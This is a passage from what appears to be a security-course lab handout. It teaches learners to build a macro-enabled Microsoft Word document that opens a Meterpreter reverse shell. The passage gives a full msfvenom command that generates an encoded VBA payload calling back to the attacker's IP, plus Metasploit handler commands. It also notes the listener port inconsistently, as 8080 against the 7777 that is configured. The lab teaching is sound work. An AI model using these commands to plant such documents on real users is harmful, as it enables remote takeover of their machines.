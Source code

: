 The last three commands drop you into a windows shell where you can more easily establish your identity.


        
<div class='alert alert-info'><strong>Optional:</strong> Explore! SET has much to offer. Just consider all the ways that you or members of your organization may be
tricked into being compromised...</div>



# Part 4. Create a Malicious Microsoft Word Document

In this section, you will create a macro-enabled Microsoft Word file that opens a Meterpreter session on an attacker’s machine. Note that this is a feature of Word, and not a security vulnerability. For this reason, this attack vector will work as long as you can convince a user to open the Word file.

1.	In Kali, run the following command (all one line):

        msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=[kali ip addr] LPORT=7777 -e x86/shikata_ga_nai -f vba-exe > word-macro-exploit

    This will save the exploit to a file called `word-macro-exploit`
2.	`cat word-macro-exploit` and read the beginning of the output. It explains that the output is divided into two sections: A "Macro" section and a "Payload" section. Copy _all_ of the output from your terminal from this command, and paste it into a text file on your Windows VM (or onto a machine with Microsoft Word).

3.	In Kali, run `msfconsole` and run the following commands:

        use exploit/multi/handler
        set payload windows/meterpreter/reverse_tcp
        set LPORT 7777
        set LHOST [IP of your Kali VM]
        set ExitOnSession false
        exploit -j

    The above commands will cause Metasploit to listen on port 8080 for an incoming Meterpreter connection.


4.	Open Word. 

    <div class='alert alert-info'>If you are using the Word 2007 preinstalled on my distributed VM, when it launches, you will be asked for a license activation key. Simply close
    this dialog. You have trial-mode access.</div>
    
    1.  First, enable the Developer tool access if you haven't already. 

        ## Enable Developer tool access in Word 2007
        
        Click the circle office button in the top left > Word Options button towards bottom-right > "Popular" > enable checkbox for "Show Developer tab in the Ribbon"
        
        ## Enable Developer tool access in Word 2010 and higher
        